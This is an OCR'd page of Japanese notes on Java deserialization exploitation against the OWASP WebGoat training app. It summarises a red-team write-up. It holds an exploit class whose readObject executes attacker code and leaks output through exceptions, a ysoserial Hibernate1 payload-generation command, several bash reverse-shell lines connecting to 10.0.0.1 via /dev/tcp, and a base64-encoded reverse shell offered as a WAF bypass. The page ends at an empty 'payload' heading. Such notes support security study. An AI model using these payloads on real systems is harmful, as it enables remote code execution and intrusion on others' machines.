 ```java
          String everything = sb.toString();
          /*
            We cannot use System.out to print the string
            so I decided to insert the result of the exploit inside
             an exception.
            All the unhandled exceptions are kindly sent back to the client.
          */
          IOException e = new
          IOException(everything);
          throw e;
      } finally {
          br.close();
      }
  }

  private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
      exploit();
      in.defaultReadObject();
  }
}
```
## ysoserial Hibernate1 / encode reverse shell payload (OWASP WEBGOAT)
https://medium.com/abn-amro-red-team/java-deserialization-from-discovery-to-reverse-shell-on-limited-environments-2e7b4e14fbef  
- **entrypoint**  
WEBGOATのInsecure Deserializationの項目。  
以下のBurp SuiteのJavaの逆シリアル化の脆弱性を検知できる拡張が便利そう。  
https://github.com/federicodotta/Java-Deserialization-Scanner/blob/master/src/burp/BurpExtender.java  
error文にHibernate1のPayloadを使えてきなヒントが出てるのかな？？  
ysoserialのやつそのままだとうまく行かなかったらしい(修正されてるのかな？？)  
いろいろなんやかんやして以下のようにしてPaylaodを作成したらしい。  
```txt
java -Dhibernate5 -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar Hibernate1 "touch /tmp/test" | base64 -w0
```
以下のPentest Monkeyのやつは動かなかったらしい。  
```txt
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
最終的に以下が動いたらしい。  
```txt
String cmd = "java.lang.Runtime.getRuntime().exec(new String []{\"/bin/bash\",\"-c\",\"exec 5<>/dev/tcp/10.0.0.1/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done\"}).waitFor();";
clazz.makeClassInitializer().insertAfter(cmd);
```
`bash -i >& /dev/tcp/[IP address]/[port] 0>&1`を以下のようにエンコードできるらしい！WAFの
バイパスもおまけにできそうで良さげ？  
```txt
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|{bash,-i}
```
- **payload**  
